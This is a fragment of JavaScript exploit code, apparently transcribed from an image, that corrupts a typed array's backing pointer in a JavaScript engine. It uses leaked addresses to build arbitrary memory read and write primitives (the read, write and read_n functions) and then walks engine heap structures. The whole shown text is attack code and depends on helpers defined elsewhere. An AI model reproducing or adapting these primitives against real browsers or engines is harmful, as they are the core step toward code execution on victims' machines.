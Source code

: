 ```javascript
slots = aa.slice(0x40,0x48);
leak.reverse()         
group.reverse()
slots.reverse()


LS(group)
LS(slots)

leak[0]=0
leak[1]=0


add(leak,new data("0x38"))
RS(leak)
leak.reverse()


for (var i=0;i<leak.length;i++)
  aa[0x40+i] = leak[i]

leak.reverse()
LS(leak)
sub(leak,new data("0x10"))
leak.reverse()

changer = new Uint8Array(buf[7])

function write(addr,value){
    for (var i=0;i<8;i++)
      changer[i]=addr[i]
    value.reverse()
    for (var i=0;i<8;i++)
      leaker[i]=value[i]
}

function read(addr){
    for (var i=0;i<8;i++)
      changer[i]=addr[i]
    return leaker.slice(0,8)
}

function read_n(addr, n){
    write(leak,n)
    for (var i=0;i<8;i++)
      changer[i]=addr[i]
    return leaker
}

sub(group,new data("0x40")) 
sub(slots,new data("0x30")) 
print1(group)
print1(slots)
group.reverse()
slots.reverse()

aa = read(group) 
aa.reverse()
print1(aa)
aa.reverse()

grp_ptr = read(aa) 
grp_ptr.reverse()
```